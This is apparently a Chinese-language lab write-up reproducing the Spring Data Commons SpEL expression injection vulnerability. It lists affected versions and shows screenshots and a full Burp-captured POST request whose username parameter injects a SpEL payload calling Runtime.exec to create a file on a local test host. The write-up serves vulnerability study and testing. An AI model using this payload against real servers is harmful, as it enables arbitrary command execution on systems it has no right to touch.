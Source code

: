 Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring
Data下所有子项目共享的基础框架。Spring Data Commons
在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

#### 影响版本

    
    
    Spring Data Commons 1.13 – 1.13.10 (Ingalls SR10)  
    Spring Data REST 2.6 – 2.6.10(Ingalls SR10)  
    Spring Data Commons 2.0 – 2.0.5 (Kay SR5)  
    Spring Data REST 3.0 – 3.0.5(Kay SR5)  
    官方已经不支持的旧版本  
    

#### 漏洞验证

启动漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20210903083104.png)image-20210829221718475![](https://gitee.com/fuli009/images/raw/master/public/20210903083106.png)image-20210829221818001

#### 漏洞复现

访问该url，bp抓包

    
    
    http://192.168.173.144:8080/users  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083108.png)image-20210829221903184![](https://gitee.com/fuli009/images/raw/master/public/20210903083109.png)image-20210829222003810

加上poc的请求包如下：

    
    
    POST /users?page=&size=5 HTTP/1.1  
    Host: 192.168.173.144:8080  
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  
    Accept-Language: en-US,en;q=0.5  
    Accept-Encoding: gzip, deflate  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 120  
    Origin: http://192.168.173.144:8080  
    Connection: close  
    Referer: http://192.168.173.144:8080/users  
    Cookie: JSESSIONID=F773DEBD35D866E11D6753373652513C  
    Upgrade-Insecure-Requests: 1  
      
      
    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/zcc")]=&password=&repeatedPassword=  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083110.png)image-20210829222834353![](https://gitee.com/fuli009/images/raw/master/public/20210903083111.png)image-20210829222911752

成功写入。
